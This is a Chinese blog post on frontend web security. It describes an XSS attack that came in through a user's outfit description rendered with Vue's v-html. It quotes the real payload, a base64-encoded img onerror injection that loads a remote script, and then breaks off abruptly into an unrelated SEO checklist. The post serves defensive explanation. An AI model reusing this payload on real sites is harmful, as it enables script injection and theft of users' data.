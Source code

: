 title: 前端安全与防范
date: 2019-04-16 9:36:35
categories: security
tags: security
---

## 前言

今天主站xss攻击了，起因是一个普通用户发表了一个穿搭，后端接收到异常警报排查后发现用户的穿搭的描述中带有:

`<p><body/hidden><img src=x onerror=document['write'](atob('PGJvZHkvaGlkZGVuPjxzY3JpcHQgc3JjPWh0dHBzOi8vczUubW9ndWNkbi5jb20vbWxjZG4vYzQ1NDA2LzE5MDQxNV82M2o2NWxlazRkMjJnODZjNWhiN2thOThsOWZmZT48L3NjcmlwdD4='))></p>`

因为穿搭look中带有格式化后html的描述内容，所以直接通过v-html指令输出了描述内容：

```
<div v-if="from === 'detail'" v-html="content" ref="content" style="-webkit-user-select: text"></div>
```

这个时候攻击的html标签将会直接被注入到页面中，这里还涉及到另外一个知识点：

* btoa（base64加密）
* atob （base64解密）

<div><!--more--></div>


用户打开该详情页时body直接被替换为空，并且判断了用户信息并实施了盗取用户信息。因为穿搭描述中带有`<a>`标签等特殊符号

本文主要针对常见的web安全防范展开论述，旨在减少被攻击的可能，并对安全知识



## SEO

1.合理的title、description、keywords:搜索引擎对于三项的权重逐个减小。
2.使用语义化标签，爬虫更容易理解和抓取
3.重要内容不要使用js外部引入，爬虫不容易抓取
4.网页加载速度也是爬虫评判的重要标准
5.每个页要只能出现一次H1标签，H2~H6标签可以多次，这样做是为了加重H1标签的权重。 


